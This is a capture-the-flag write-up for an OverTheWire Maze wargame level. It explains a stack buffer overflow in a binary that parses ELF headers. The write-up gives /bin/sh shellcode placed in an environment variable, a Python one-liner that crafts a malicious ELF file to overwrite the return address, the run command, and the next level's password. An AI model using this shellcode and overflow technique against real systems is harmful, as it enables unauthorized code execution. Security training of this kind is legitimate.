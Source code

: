
---
**Challenge URL:** [Maze Wargame](https://overthewire.org/wargames/)

---

### 🔐 Level Goal:

> This binary reads ELF header data and calls a custom `Print_Shdrs()` function to dump section headers. The vulnerability lies in how it reads into a **stack-based buffer without bounds checking**, leading to a **classic stack buffer overflow** — which we’ll exploit to hijack execution flow.

---

### 🧠 Concepts Covered:

- 🧠 ELF header structure: `Elf32_Ehdr`, `Elf32_Shdr`
    
- 🧨 Buffer overflow via unsafe `read()`
    
- 🐚 Shellcode via environment variable
    
- 📦 Stack manipulation and return address control
    

---

### 🔎 Decompiled Summary

In `main()`:

```c
read(fd, &ehdr, 52); // Read ELF header
Print_Shdrs(fd, ehdr.e_shoff, ehdr.e_shstrndx, ehdr.e_shnum, ehdr.e_shentsize);
```

Inside `Print_Shdrs()`:

```c
char *p = &dummy;        // dummy is char dummy[64];
...
read(fd, p, size);       // 🧨 size is user-controlled — unsafe!
```

→ If we pass a file with `e_shentsize = 0x44`, it will cause the `read()` to overflow the dummy buffer (64 bytes) and **overwrite the return address**.

---

### 🧪 Strategy

1. Place shellcode in an environment variable
    
2. Craft ELF file with:
    
    - Padding for 44-byte overflow
        
    - Overwritten return address pointing to shellcode
        
3. Pass it to the binary
    

---

### ⚙️ Step-by-Step Exploit

#### 📜 1. Export shellcode in environment

```bash
export SC=$(python3 -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68" \
"\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

📌 Shellcode address = `0xffffdf0c`

---

#### 📜 2. Create payload ELF file

```bash
python3 -c '
print(
    "\x00"*32 +               # padding
    "\x00\x00\x00\x00" +      # shstrndx (0)
    "\x00"*10 + 
    "\x44\x00" +              # e_shentsize = 0x44
    "\x00\x00" +              # e_shnum = 0
    "\x00\x00\x00\x00" + 
    "\x00"*10 +
    "\x0c\xdf\xff\xff"        # Overwrite return addr → 0xffffdf0c
)' > /tmp/elf_payload
```

---

#### ▶️ 3. Run the Exploit

```bash
/maze/maze6 /tmp/elf_payload
```

→ The overflow causes return into our NOP sled → shell spawns 🐚

---

### 🔑 Password for Maze Level 7:

```
pohninieng
```

---
